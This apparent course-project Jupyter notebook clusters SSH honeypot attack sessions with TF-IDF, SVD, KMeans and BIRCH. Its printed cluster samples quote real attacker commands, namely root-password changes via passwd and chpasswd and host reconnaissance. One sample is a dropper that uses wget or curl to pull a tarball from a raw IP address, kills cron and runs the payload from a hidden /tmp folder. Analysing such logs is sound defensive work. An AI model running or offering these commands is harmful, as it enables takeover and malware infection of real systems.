# Section 3 Unsupervised Learning


--------------------------------------------------------------------------------------

In [1]:
import string
import base64
import pandas as pd
import re
from sklearn.model_selection import train_test_split
from sklearn.preprocessing import StandardScaler
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.compose import ColumnTransformer
from sklearn.pipeline import Pipeline
from sklearn.linear_model import LogisticRegression
import os

# load dataset from environment variable
dataSetPath = os.environ.get('DATASET_PATH')
dataSet = pd.read_parquet(dataSetPath)

def decode_base64_payload(payload):
    base64_pattern = r'([A-Za-z0-9+/]{20,}={0,2})'
    if not "base64" in payload:
        return payload
    matches = re.findall(base64_pattern, payload)
    decoded_strings = []
    for match in matches:
        try:
            decoded = base64.b64decode(match).decode('utf-8', errors='ignore')
            # Filter out non-printable characters
            if all(c in string.printable for c in decoded):
                decoded_strings.append(decoded)
        except Exception as e:
            continue
    # return the original payload but with the decoded b64
    result = payload
    for match, decoded in zip(matches, decoded_strings):
        result = result.replace(match, decoded, 1)
    return result

dataSet['decoded_payload'] = dataSet['full_session'].apply(decode_base64_payload)

In [2]:

newDataSet = dataSet.drop(columns=['full_session','session_id','first_timestamp', 'Set_Fingerprint'])
# newDataSet["first_timestamp"] = pd.to_datetime(dataSet["first_timestamp"])
# newDataSet["day_of_the_week"] = newDataSet["first_timestamp"].dt.dayofweek
# newDataSet["month"] = newDataSet["first_timestamp"].dt.month



# y = newDataSet['Set_Fingerprint']

# newDataSet.drop(columns=['Set_Fingerprint'], inplace=True)


# X_train, X_test, y_train, y_test = train_test_split(
#     newDataSet,
#     y,
#     train_size=0.7,
#     random_state=42,
# )

X = newDataSet

# we will use the same token pattern as in part 1
token_pattern=r'[^\s|;(){}:\'\"><]+'


preprocessor = ColumnTransformer(
    transformers=[
        (
            "full_session_vectorized",
            TfidfVectorizer(
                lowercase=True,
                token_pattern=token_pattern,
            ),
            "decoded_payload"
        )
    ]
)

X = preprocessor.fit_transform(X)




<>:25: SyntaxWarning: invalid escape sequence '\s'
<>:25: SyntaxWarning: invalid escape sequence '\s'
/tmp/ipykernel_79688/3923716807.py:25: SyntaxWarning: invalid escape sequence '\s'
  plt.title(f'{len(perc_cumul_exp_var)} PCs explain {round(perc_cumul_exp_var[-1], 2)}% of $\sigma^2$')




New shape after SVD: (233035, 6)
Old shape before SVD: (233035, 399935)


In [3]:
# dimensionality reduction with TruncatedSVD (works with sparse matrices)
from sklearn.decomposition import TruncatedSVD
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# cannot do correlation matrix as it would be too large

n_components = 6
svd = TruncatedSVD(n_components=n_components, random_state=42)
X_svd = svd.fit_transform(X)

# elbow method to choose number of components
explained_variance = svd.explained_variance_ratio_
cumul_exp_var = np.cumsum(explained_variance) # Get the cumulative explained variance
perc_cumul_exp_var = cumul_exp_var*100 # Get the percentages

# Plot
plt.figure(figsize=(5, 3.5))
plt.plot(perc_cumul_exp_var, marker='o')
plt.xlabel('# Principal Components (PCs)')
plt.ylabel('Cumulative explained variance [%]')
plt.xticks(np.arange(0, n_components, step=2), np.arange(2, n_components+2, step=2))
plt.grid()
plt.title(f'{len(perc_cumul_exp_var)} PCs explain {round(perc_cumul_exp_var[-1], 2)}% of $\sigma^2$')
plt.tight_layout()
plt.show()

print(f"New shape after SVD: {X_svd.shape}")
print(f"Old shape before SVD: {X.shape}")


Cluster the attacks according to their characteristics. Choose at least 2 Clustering Algorithms, and for each
of them:
1. Determine the number of clusters. Explain your choices and reasoning.
2. Tune other hyper-parameters, if any.3. Visualize the clusters. Explain your technique choice.

In [4]:
# clusering with KMeans
from sklearn.cluster import KMeans
kmeans = KMeans(n_clusters=3, random_state=42)
cl_labels = kmeans.fit_predict(X_svd)

# silhouette score
from sklearn.metrics import silhouette_score
silouhette = silhouette_score(X_svd, cl_labels, n_jobs=-1, sample_size=10000)   # controllare seed
print(f'Silouhette score: {silouhette}')

Silouhette score: 0.9292844698978457


In [5]:
# Step 1
from tqdm import trange
n_cluster_list=[]
shs_list = []
ri_list = []
ari_list = []
inertia_list=[]
for n_clusters in trange(3, 16):
    kmeans = KMeans(n_clusters=n_clusters)
    cl_labels = kmeans.fit_predict(X_svd)
    # Unsupervised metric
    silhouette  = silhouette_score(X_svd, cl_labels, n_jobs=-1, sample_size=10000)
    n_cluster_list.append(n_clusters)
    shs_list.append(silhouette)
    inertia_list.append(kmeans.inertia_)


100%|██████████| 13/13 [00:26<00:00,  2.03s/it]


best k:  7  with corresponding silhouette:  0.9711203269308604




In [6]:
# Get n_clusters leading to the highest silhouette
best_sh= np.max(shs_list)
best_n=n_cluster_list[np.argmax(shs_list)]
print("best k: ",best_n, " with corresponding silhouette: ", best_sh)

# Plot
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,shs_list, marker='o', markersize=5)
plt.scatter(best_n, best_sh, color='r', marker='x', s=90)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('Silhouette score')
plt.show()



In [7]:
# Step 3

# Plot k-Means clustering error
plt.figure(figsize=(5, 3.5))
plt.plot(n_cluster_list,inertia_list, marker='o', markersize=5)
plt.grid()
plt.xlabel('Number of clusters')
plt.ylabel('k-Means clustering error')
plt.show()

In [8]:
# choosing optimal k we can now do the final clustering
kmeans = KMeans(n_clusters=best_n, random_state=42)
cl_labels = kmeans.fit_predict(X_svd)

In [9]:
import pandas as pd
import random

# Remove the truncation on long strings
pd.set_option('display.max_colwidth', None)

# Add the cluster labels to the DataFrame
newDataSet['cluster'] = cl_labels

# Profile more samples (e.g., 10) to see if they stay consistent
for i in range(best_n):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Print payloads
    print("Payload Samples:")
    # taking 5 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(5, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")
    # print(cluster_data['decoded_payload'].head(5).to_string(index=False))


--- Cluster 0 Details ---
Payload Samples:
cat /proc/cpuinfo | grep name | wc -l ; echo -e "yuan\nB8M4eRrBpSLH\nB8M4eRrBpSLH" | passwd | bash ; echo "yuan\nB8M4eRrBpSLH\nB8M4eRrBpSLH\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ; echo "admin yuan" > /tmp/up.txt ; rm -rf /var/tmp/dota* ;
---
cat /proc/cpuinfo | grep name | wc -l ; echo -e "admin@1\n6NBAwUkiXkgQ\n6NBAwUkiXkgQ" | passwd | bash ; echo "admin@1\n6NBAwUkiXkgQ\n6NBAwUkiXkgQ\n" | passwd ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ;

/tmp/ipykernel_26827/2986051294.py:25: UserWarning: The palette list has more values (15) than needed (7), which may not be intended.
  sns.scatterplot(




In [10]:
from sklearn.manifold import TSNE
import matplotlib.pyplot as plt
import seaborn as sns
import numpy as np

# 1. Subsample for speed (as done previously)
sample_size = min(5000, len(X_svd))
np.random.seed(42)
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)

X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# 2. t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)

# isualization 
plt.figure(figsize=(12, 8))

#  'tab20' palette  is designed for maximum distinctness up to 20 categories
palette = sns.color_palette("tab20", 15)

# Plot the points with white edges to help them pop
sns.scatterplot(
    x=X_tsne[:, 0], y=X_tsne[:, 1],
    hue=labels_sample,
    palette=palette,
    legend=None,  
    alpha=0.6,
    s=60,
    edgecolor='white',
    linewidth=0.5
)

# Add Text Labels at the centroid of each cluster
for cluster_id in np.unique(labels_sample):
    # Calculate the mean (x, y) coordinate for this specific cluster
    mask = (labels_sample == cluster_id)
    center_x = X_tsne[mask, 0].mean()
    center_y = X_tsne[mask, 1].mean()

    # Annotate the cluster number directly on the plot
    plt.text(
        center_x, center_y, f"Cluster {cluster_id}",
        fontsize=10,
        weight='bold',
        ha='center', va='center',
        bbox=dict(facecolor='white', alpha=0.8, edgecolor='black', boxstyle='round,pad=0.2')
    )

plt.title('kmeans - t-SNE View of Attack Clusters ($k=7$)', fontsize=15)
plt.xlabel('t-SNE Dimension 1')
plt.ylabel('t-SNE Dimension 2')
plt.grid(True, linestyle=':', alpha=0.4)
plt.tight_layout()
plt.savefig('tsne_clusters_high_contrast.png')















In [11]:
# Cluster analysis. Analyze the characteristics of each cluster. This might involve examining the most frequent words in each cluster (try word cloud). Try to understand which are the most representative ones

from wordcloud import WordCloud
import matplotlib.pyplot as plt
for i in range(best_n):
    cluster_data = newDataSet[newDataSet['cluster'] == i]
    text = " ".join(cluster_data['decoded_payload'].tolist())
    
    # for word, we use the same token pattern as before
    # Use the same token pattern to extract words
    tokens = re.findall(token_pattern, text)
    filtered_text = " ".join(tokens)
    wordcloud = WordCloud(width=800, height=400, background_color='white').generate(filtered_text)
    
    plt.figure(figsize=(10, 5))
    plt.imshow(wordcloud, interpolation='bilinear')
    plt.axis('off')
    plt.title(f'Word Cloud for Cluster {i}')
    plt.show()

    

In [12]:
import pandas as pd
import numpy as np
from sklearn.cluster import Birch
from sklearn.metrics import silhouette_score
import itertools

param_grid = {
    'threshold': [0.01, 0.05, 0.1, 0.3],
    'branching_factor': [50, 100, 200],
    'n_clusters': [5, 6, 7, 9, 11, 13, 15] 
}

combinations = list(itertools.product(*param_grid.values()))
results = []

# subsampling for speed
eval_indices = np.random.choice(len(X_svd), size=10000, replace=False)
X_eval = X_svd[eval_indices]

print(f"Starting Grid Search across {len(combinations)} combinations...")

for t, bf, n in combinations:
    try:
        # initialize and Fit
        birch = Birch(threshold=t, branching_factor=bf, n_clusters=n)
        labels = birch.fit_predict(X_svd) # Fit on full data
        
        # extract labels for the subsample
        labels_eval = labels[eval_indices]
        
        # calc Metric
        # We also check the 'actual' number of clusters found 
        # to detect the "empty cluster" problem
        unique_found = len(np.unique(labels))
        
        score = silhouette_score(X_eval, labels_eval)
        
        results.append({
            'threshold': t,
            'branching_factor': bf,
            'n_clusters_target': n,
            'n_clusters_found': unique_found,
            'silhouette': score
        })
        print(f"Tested: T={t}, BF={bf}, K={n} | Found: {unique_found} | Score: {score:.4f}")
        
    except Exception as e:
        continue

# Convert to DataFrame for analysis
results_df = pd.DataFrame(results).sort_values(by='silhouette', ascending=False)
print("\n--- Best BIRCH Configurations ---")
print(results_df.head(5))

Starting Grid Search across 84 combinations...
Tested: T=0.01, BF=50, K=5 | Found: 5 | Score: 0.9359
Tested: T=0.01, BF=50, K=6 | Found: 6 | Score: 0.8748
Tested: T=0.01, BF=50, K=7 | Found: 7 | Score: 0.8860
Tested: T=0.01, BF=50, K=9 | Found: 9 | Score: 0.8831
Tested: T=0.01, BF=50, K=11 | Found: 11 | Score: 0.9022
Tested: T=0.01, BF=50, K=13 | Found: 13 | Score: 0.9351
Tested: T=0.01, BF=50, K=15 | Found: 15 | Score: 0.9281
Tested: T=0.01, BF=100, K=5 | Found: 5 | Score: 0.9342
Tested: T=0.01, BF=100, K=6 | Found: 6 | Score: 0.9027
Tested: T=0.01, BF=100, K=7 | Found: 7 | Score: 0.9159
Tested: T=0.01, BF=100, K=9 | Found: 9 | Score: 0.9127
Tested: T=0.01, BF=100, K=11 | Found: 11 | Score: 0.9087
Tested: T=0.01, BF=100, K=13 | Found: 13 | Score: 0.9436
Tested: T=0.01, BF=100, K=15 | Found: 15 | Score: 0.9271
Tested: T=0.01, BF=200, K=5 | Found: 5 | Score: 0.9250
Tested: T=0.01, BF=200, K=6 | Found: 6 | Score: 0.8838
Tested: T=0.01, BF=200, K=7 | Found: 7 | Score: 0.8950
Tested: T=0.0

/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (10) by BIRCH is less than (11). Decrease the threshold.
  warnings.warn(


Tested: T=0.1, BF=50, K=11 | Found: 10 | Score: 0.9394


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (10) by BIRCH is less than (13). Decrease the threshold.
  warnings.warn(


Tested: T=0.1, BF=50, K=13 | Found: 10 | Score: 0.9394


...

Tested: T=0.3, BF=200, K=11 | Found: 5 | Score: 0.9363


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (5) by BIRCH is less than (13). Decrease the threshold.
  warnings.warn(


Tested: T=0.3, BF=200, K=13 | Found: 5 | Score: 0.9363


/home/gabrain/Desktop/PoliTo/ml4n/MachineLearningProject/notebooks/.venv/lib/python3.12/site-packages/sklearn/cluster/_birch.py:730: ConvergenceWarning: Number of subclusters found (5) by BIRCH is less than (15). Decrease the threshold.
  warnings.warn(


Tested: T=0.3, BF=200, K=15 | Found: 5 | Score: 0.9363

--- Best BIRCH Configurations ---
    threshold  branching_factor  ...  n_clusters_found  silhouette
51        0.1               100  ...                 7    0.971352
58        0.1               200  ...                 7    0.971352
44        0.1                50  ...                 7    0.971352
50        0.1               100  ...                 6    0.962062
43        0.1                50  ...                 6    0.962062

[5 rows x 5 columns]


In [13]:
# choosing optimal k we can now do the final clustering
best_n = int(results_df.iloc[0]['n_clusters_target'])
print(f"Final BIRCH clustering with n_clusters={best_n}")
birch = Birch(n_clusters=best_n, threshold=0.1, branching_factor=100)
cl_labels = birch.fit_predict(X_svd)

Final BIRCH clustering with n_clusters=7


In [14]:
# printing cluster details again
import pandas as pd
import random
# Remove the truncation on long strings
pd.set_option('display.max_colwidth', None)
# Add the cluster labels to the DataFrame
newDataSet['cluster'] = cl_labels

for i in range(best_n):
    print(f"\n--- Cluster {i} Details ---")
    cluster_data = newDataSet[newDataSet['cluster'] == i]

    # Print payloads
    print("Payload Samples:")
    # taking 5 random samples for each cluster
    if not cluster_data['decoded_payload'].empty:
        num_samples = min(5, len(cluster_data['decoded_payload']))
        samples = random.sample(list(cluster_data['decoded_payload']), num_samples)
        print(*samples, sep="\n---\n")
        print()
    else:
        print("No payload samples for this cluster.")




--- Cluster 0 Details ---
Payload Samples:
cd /var/tmp ; echo "#!/bin/bash
cd /tmp
rm -rf .X15-unix
mkdir .X15-unix
cd .X15-unix
pkill -9 cron > .out
wget -q http://54.37.70.249/dota2.tar.gz || curl -O -f http://54.37.70.249/dota2.tar.gz
sleep 7s && tar xf dota2.tar.gz
#rm -rf dota2.tar.gz
cd .rsync
chmod 777 *
cd /tmp/.X15-unix/.rsync/a && ./cron || ./anacron
exit 0">.threatstackcloudsecops ; base64 --decode .threatstackcloudsecops | bash ; cat /proc/cpuinfo | grep name | wc -l ; echo "root:LbkWITsjmFaU" | chpasswd | bash ; echo "321" > /var/tmp/.var03522123 ; rm -rf /var/tmp/.var03522123 ; cat /var/tmp/.var03522123 | head -n 1 ; cat /proc/cpuinfo | grep name | head -n 1 | awk '{print $4,$5,$6,$7,$8,$9 ; }' ; free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}' ; ls -lh $(which ls) ; which ls ; crontab -l ; w ; uname -m ; cat /proc/cpuinfo | grep model | grep name | wc -l ; top ; uname ; uname -a ; lscpu | grep Model ;
---
cd /var/tmp ; echo "#!/bin/bash
cd /tmp
rm -rf .X15-unix



In [15]:
# BIRCH clusters t-SNE visualization
indices = np.random.choice(len(X_svd), size=sample_size, replace=False)

X_sample = X_svd[indices]
labels_sample = cl_labels[indices]

# t-SNE
tsne = TSNE(n_components=2, perplexity=30, random_state=42, init='pca', learning_rate='auto')
X_tsne = tsne.fit_transform(X_sample)

plt.figure(figsize=(14, 8))

unique_labels = np.unique(labels_sample)
num_clusters = len(unique_labels)
palette = sns.color_palette("tab20", num_clusters)

# scatter plot with legend enabled
